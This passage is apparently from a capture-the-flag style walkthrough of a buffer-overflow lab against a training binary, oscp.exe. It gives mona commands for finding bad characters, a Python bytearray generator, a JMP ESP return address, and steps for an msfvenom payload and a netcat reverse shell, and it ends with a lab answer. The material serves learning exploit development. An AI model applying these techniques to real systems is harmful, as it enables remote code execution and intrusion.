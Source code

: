   ```!mona findmsp -distance 2400```
```

* We can run the Python script and copy the string output to the payload variable of ```exploit.py```.

* After restarting & running oscp.exe, and then running the exploit script, we need to note the address to which ESP register points, and use it in mona command:

  ```!mona compare -f C:\mona\oscp\bytearray.bin -a 01A1FA30```

* This gives us a popup window for 'mona Memory comparison results' and shows the badchars (including \x00) - 00 07 00 2e 2f a0 a1

* Using these badchars, we need to generate a new bytearray in mona, this time specifying these badchars along with \x00, then we need to update payload variable in exploit again, and remove new badchars.

* Then, restart oscp.exe and run modified exploit again - this process has to be repeated until results status shows 'unmodified' - which indicates no more badchars exist.

* It is given that often badchars cause the next byte to get corrupted as well, so looking at generated badchars, the badchars would be (besides \x00) - \x07 \x2e \xa0

* Therefore, generating new bytearray:

  ```!mona bytearray -b "\x00\x07\x2e\xa0"```

* We need to update the badchars script, so that the output can be replaced into the payload variable in exploit script:

```python
from __future__ import print_function

listRem = "\\x07\\x2e\\xa0".split("\\x")
for x in range(1, 256):
    if "{:02x}".format(x) not in listRem:
        print("\\x" + "{:02x}".format(x), end='')
print()
```

* Now, on doing the same cycle over again, and running the following mona compare command, we get 'unmodified' message - which means the badchars are removed:

  ```!mona compare -f C:\mona\oscp\bytearray.bin -a 01ABFA30```

* Now, we need to find jump point, using the badchars:

  ```!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"```

* We need to choose the address (for jump point) from 'Log Data' window - and it should have many 'False' conditions - in this case, we can choose "625011AF"

* As we have to follow the 'little endian' system, the address would be written in reverse - "\xaf\x11\x50\x62" - this would be added to the retn variable in our exploit script.

* After generating payload using msfvenom, we can copy it to our exploit script, enclosed in brackets.

* After editing the padding variable, we can setup netcat listener on port 4444, and restart oscp.exe in Immunity Debugger.

* Running the exploit now will give us a reverse shell.

```markdown
1. What is the EIP offset for OVERFLOW1? - 1978

  ```
